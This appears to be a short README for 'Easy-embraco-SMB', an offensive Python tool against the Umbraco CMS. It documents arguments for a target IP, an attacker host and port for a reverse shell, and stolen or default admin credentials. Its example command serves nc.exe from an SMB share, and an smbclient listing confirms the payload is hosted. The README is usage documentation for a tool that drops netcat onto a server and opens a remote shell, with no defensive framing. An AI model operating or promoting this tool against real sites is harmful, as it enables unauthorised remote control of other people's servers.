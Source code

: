 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:\
  \-h, \-\-help            show this help message and exit\
  \--target TARGET, \-t TARGET Target IP address\
  \--host HOST, \-x HOST  IP for reverse shell\
  \--port PORT, \-p PORT  Port for reverse shell\
  \--load LOAD, \-l LOAD  Path to file or script to provide to the public\
  \--user USER, \-P USER  User name for Umbraco\
  \--passw PASSW, \-U PASSW  Password for Umbraco\


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe

## Confirmation SMB is hosting our nc.exe file
sudo smbclient -H \\\\127.0.0.1\\share\

dir\

smb: \> dir\
  .      \
  ..     \
  nc.exe 
